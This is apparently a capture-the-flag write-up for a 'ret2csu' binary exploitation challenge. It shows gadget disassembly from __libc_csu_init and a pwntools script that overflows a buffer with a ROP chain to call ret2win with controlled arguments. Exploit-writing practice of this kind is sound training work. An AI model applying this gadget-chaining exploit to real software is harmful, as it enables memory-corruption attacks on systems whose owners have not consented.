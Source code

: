 this is the full disassembly of `__libc_csu_init`, you might see something that
represent gadgets here from the line `<+90>` to `<+100>` and `<+64>` to `<+73>`

```
   0x000000000040069a <+90>:    pop    rbx
   0x000000000040069b <+91>:    pop    rbp
   0x000000000040069c <+92>:    pop    r12
   0x000000000040069e <+94>:    pop    r13
   0x00000000004006a0 <+96>:    pop    r14
   0x00000000004006a2 <+98>:    pop    r15
   0x00000000004006a4 <+100>:   ret
```

```
   0x0000000000400680 <+64>:    mov    rdx,r15
   0x0000000000400683 <+67>:    mov    rsi,r14
   0x0000000000400686 <+70>:    mov    edi,r13d
   0x0000000000400689 <+73>:    call   QWORD PTR [r12+rbx*8]
```

these's might not look like gadgets at first, but we can actually control 3 of
the registers for calling a function which are `edi`, `rsi` and `rdx`.

there're also `pop` instructions floating around in the binary for `rdi` and `rsi`
but i decided to just use the instructions from `__libc_csu_init` to do the job.

note that `call QWORD PTR [r12+rbx*8]` is not `call r12+rbx*8`, this instruction
calculate for the address of `r12+rbx*8` and then reference it, get the address
from memory and then call that address.

let's try to use these to manipulate registers and call `ret2win`.

```python
from pwn import *

p = process("./ret2csu")

gdb.attach(p, """break ret2win""")

# pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
pop = 0x40069a

# mov rdx, r15; mov rsi, r14; mov edi, r13d; call qw ptr [r12+rbx*8]
mov = 0x400680

ret2win = 0x400510
ret2win_got = 0x601020

arg_1 = 0xdeadbeefdeadbeef
arg_2 = 0xcafebabecafebabe
arg_3 = 0xd00df00dd00df00d

padding = b"x" * 40

payload = flat([
        padding,
        pop,
        0,
        0,
        ret2win_got,
        arg_1,
        arg_2,
        arg_3,
        mov,
],word_size=64)

p.sendline(payload)

```